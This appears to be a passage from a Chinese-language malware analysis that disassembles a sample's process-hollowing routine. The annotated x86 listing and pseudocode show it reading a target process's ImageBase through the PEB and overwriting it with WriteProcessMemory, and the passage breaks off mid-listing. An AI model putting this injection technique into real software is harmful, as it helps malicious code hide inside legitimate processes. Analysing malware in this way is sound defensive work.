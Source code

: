     047C08D3 50 push eax
    047C08D4 FF33 push dword ptr [ebx]
    047C08D6 6A 05 push 5
    047C08D8 FFB6 78020000 push dword ptr [esi+278]
    047C08DE FF96 C0020000 call dword ptr [esi+2C0] ; ReadVirtualMemory读出ImageBase地址
这块的算法应该是：

    DWORD* peb;
    DWORD* ImageBaseAddress;
    GetThreadContext(hTarget, &contx)
    ImageBaseAddress = (DWORD *) contx.Ebx+8;
得到ImageBase地址之后，用新分配的exe地址去替换：

    047C072A 8D45 E8 lea eax, dword ptr [ebp-18]
    047C072D 50 push eax
    047C072E 6A 04 push 4
    047C0730 8D45 FC lea eax, dword ptr [ebp-4]
    047C0733 50 push eax
    047C0734 8B85 B0FDFFFF mov eax, dword ptr [ebp-250]
    047C073A 83C0 08 add eax, 8
    047C073D 50 push eax
    047C073E FF75 EC push dword ptr [ebp-14]
    047C0741 6A 05 push 5
    047C0743 5F pop edi
    047C0744 57 push edi
    047C0745 FFB6 7C020000 push dword ptr [esi+27C]
    047C074B FF96 C0020000 call dword ptr [esi+2C0] ; WriteProcessMemory修改ImageBase
    047C0751 8B43 10 mov eax, dword ptr [ebx+10]
    047C0754 0345 FC add eax, dword ptr [ebp-4]
    047C0757 8945 E4 mov dword ptr [ebp-1C], eax
    047C075A 8D45 E8 lea eax, dword ptr [ebp-18]
    047C075D 50 push eax
    047C075E 6A 04 push 4
    047C0760 8D45 E4 lea eax, dword ptr [ebp-1C]
    047C0763 50 push eax
    047C0764 8B85 D0FDFFFF mov eax, dword ptr [ebp-230]
    047C076A 83C0 04 add eax, 4
    047C076D 50 push eax
    047C076E FF75 EC push dword ptr [ebp-14]
    047C0771 57 push edi
    047C0772 FFB6 7C020000 push dword ptr [esi+27C]
    047C0778 FF96 C0020000 call dword ptr [esi+2C0] ; WriteProcessMemory
    047C077E 8D45 E8 lea eax, dword ptr [ebp-18]
    047C0781 50 push eax
    047C0782 6A 04 push 4
    047C0784 8D45 FC lea eax, dword ptr [ebp-4]
    047C0787 50 push eax
    047C0788 68 10F0FD7E push 7EFDF010
    047C078D FF75 EC push dword ptr [ebp-14]
    047C0790 57 push edi
    047C0791 FFB6 7C020000 push dword ptr [esi+27C]
    047C0797 FF96 C0020000 call dword ptr [esi+2C0] ; WriteProcessMemory
    047C079D 8B45 08 mov eax, dword ptr [ebp+8]
    047C07A0 8B48 3C mov ecx, dword ptr [eax+3C]
    047C07A3 8B45 10 mov eax, dword ptr [ebp+10]
    047C07A6 8B55 FC mov edx, dword ptr [ebp-4]
    047C07A9 83C4 54 add esp, 54
    047C07AC 6A 00 push 0
    047C07AE FF75 14 push dword ptr [ebp+14]
    047C07B1 895401 34 mov dword ptr [ecx+eax+34], edx
    047C07B5 50 push eax
    047C07B6 FF75 FC push dword ptr [ebp-4]
    047C07B9 FF75 EC push dword ptr [ebp-14]
    047C07BC 57 push edi